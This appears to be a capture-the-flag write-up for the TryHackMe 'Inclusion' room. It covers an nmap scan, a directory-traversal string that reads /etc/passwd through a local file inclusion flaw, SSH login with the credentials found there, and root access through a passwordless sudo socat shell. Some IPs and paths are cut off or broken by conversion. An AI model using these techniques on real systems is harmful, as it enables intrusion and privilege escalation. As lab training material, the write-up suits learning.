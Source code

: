 # Inclusion

This is a writeup for THM room: Inclusion
https://tryhackme.com/room/inclusion

# Scanning the Machine

First, lets scan the room to see what ports that is open to us using
Nmap.

```
nmap -A -oA nmap_result 10.10.218.
```
Command breakdown:

- A: tell nmap to do an extensive scan on the server.
- oA: output the result to a file, which in this case is “nmap_result”

Execute the command, then we get this:

```
Starting Nmap 7.91 ( https :// nmap.org ) at 2021-08-
04 : 37 UTC
Nmap scan report for 10 .10.218.83 (10.10.218.83)
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.
(Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:
(RSA)
| 256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:
(ECDSA)
|_ 256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a
(ED25519)
80/tcp open http Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
Service detection performed. Please report any incorrect
results at https://nmap.org/submit/.
```

```
Nmap done: 1 IP address (1 host up) scanned in 38.
seconds
```
now we know that there are SSH and Webserver that is running on
the machine. Since we don't know the credentials for SSH, let's first
access the server to see what we can find.

# Accessing the webserver

Accessing the server from the browser, we are greeted with this
page.
![](images/3-1.png)

Nothing interesting to look at, but we can try to access these
different articles, to see if we can find anything particular.
![](images/3-2.png)

Well, there's nothing weird in the page itself but take a closer look at
the url bar in your browser.
![](images/3-3.png)

for a brief explanation, the “name” variable is pointing to a file
called “hacking”, which is the name of the article that I accessed
currently. What makes it interesting is that we can do a local file
inclusion here by replacing the filename with this “../
<folder_or_file>”, so what this string do?. To breakdown, the double
dot (..) is used to move back from the current folder, then followed
by slash (/) to signal if we want to access a file or open a folder.

Since we don't know what files contain in the parent folder, let's try
to move back to root and access the passwd file in /etc/passwd to
find any information that we can use. To do that, simply replace the
article name in the url bar with this string:

```
.. / .. / .. / .. / etc /passwd
```
The page will then change, displaying this:
![](images/3-4.png)

Username and the password is in the last line besides the hashtag.

# Connect to ssh

With the credentials at hand, we can try to connect to the machine
through SSH. Simply type this in the terminal:

```
ssh falconfeast@10.10.218.
```
It then prompts for password, after inputing it, then we have access
to the system
![](images/4-1.png)

ls the current location will show the files that holds the user's flag.
![](images/4-2.png)
Got it. Now onto the final flag

# Getting the root

To get the root flag, we can try to sudo cat to /root/root.txt and use
the password that we get earlier on to connect to SSH. But can we
do it successfully?.

```
sudo cat / root / root.txt
```
![](images/5-1.png)
Turns out, we can't since the current user is not allowed to execute
the cat command as root based on the image above. So what 
command that is able to run as root by falconfeast?, let's check it
with this command:

```
sudo -l
```
Command Breakdown:
-l: used to list all the commands that is allowed to run as root for the
current user.

![](images/5-2.png)
It looks like the only the command allowed to run as root is socat,
and without asking for password. This is great, we can use this to
elevate our privilege. To do that, type this:

```
sudo socat stdin exec :/ bin /sh
```
Now it might look like it freezes at first because theres nothing that
signify if the command works. But it actually runs successfully,
because it returns something if we execute any command. But first,
let's type whoami, to see who we are right now.

```
whoami
```
![](images/5-3.png)
Alright let's just go straight to the last flag.

```
cat / root / root.txt
```
![](images/5-4.png)
And we're done


